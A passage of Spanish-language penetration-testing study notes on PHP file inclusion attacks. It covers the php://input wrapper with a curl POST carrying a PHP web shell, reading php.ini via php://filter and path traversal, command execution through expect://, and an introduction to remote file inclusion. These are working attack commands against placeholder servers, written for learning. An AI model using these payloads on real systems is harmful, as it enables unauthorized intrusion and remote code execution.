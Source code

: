 #### wrapper input

Similar al wrapper `data`, el wrapper `input` se puede usar para incluir entradas externas y ejecutar código PHP. La diferencia es que a este wrapper hay que pasarle nuestro payload PHP como la **data** de una solicitud POST. Por lo tanto, el parámetro vulnerable debe aceptar solicitudes POST para que este ataque funcione. Finalmente, el wrapper `input` también depende de la configuración`allow_url_include`, como se mencionó anteriormente.

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

>[!note]
>Si solo acepta solicitudes POST y no GET (no podemos pasar comando por URL), entonces podemos poner nuestro comando directamente en nuestro código PHP, en lugar de un shell web dinámico (p. ej `<\?php system('id')?>`.)

#### wrapper expect

Finalmente, podemos utilizar el wrapper [expect](https://www.php.net/manual/en/wrappers.expect.php) , que nos permite ejecutar comandos directamente a través de flujos de URL.

Sin embargo, se espera que sea un envoltorio externo, por lo que debe instalarse y habilitarse manualmente en el servidor back-end, aunque algunas aplicaciones web dependen de él para su funcionalidad principal, por lo que podemos encontrarlo en casos específicos. Podemos determinar si está instalado en el servidor back-end tal como lo hicimos antes `allow_url_include`, pero lo haríamos `grep expect` en su lugar:

```bash
#obtencion del archiv ode configuracion en base64
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

#verificacion de la configuracion
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

Para usar el módulo expect, podemos usar el wrapper `expect://` y luego pasar el comando que queremos ejecutar, de la siguiente manera:

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

### RFI

En algunos casos, también podemos incluir archivos remotos, si la función vulnerable permite la inclusión de URL remotas. Esto permite dos beneficios principales:

1.  Enumeración de puertos y aplicaciones web solo locales (es decir, SSRF)
2.  Obtener la ejecución remota de código al incluir un script malicioso que alojamos

las siguientes funciones permiten la inclusion de archivos remotos:

![[Pasted image 20230125160742.png]]
